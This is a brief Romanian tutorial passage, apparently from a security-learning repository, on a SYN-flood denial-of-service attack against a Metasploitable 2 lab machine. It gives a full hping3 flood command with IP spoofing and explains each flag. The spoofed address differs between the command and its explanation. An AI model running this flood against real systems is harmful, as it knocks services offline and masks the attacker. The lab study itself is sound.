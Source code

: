 ### Atac DoS:
  - [Despre DoS](https://github.com/Dani780-C/Cyber-security/blob/main/learn/info_DoS_attack.md)
  - Pasii atacului: 
    
        hping3 -S 192.168.56.102 -a 192.168.56.105 -p 80 --flood
        
       -S <-> fixeaza flag-ul de SYN  
       192.168.56.102 <-> adresa IP a tintei Metasploitable 2  
       -a 192.168.56.101 <-> IP spoofing (modifica adresa IP in cea data ca parametru)  
       -p 80 <-> portul destinatie este 80  
       --flood <-> trimite pachetele cat se poate de repede fara a astepta un reply  
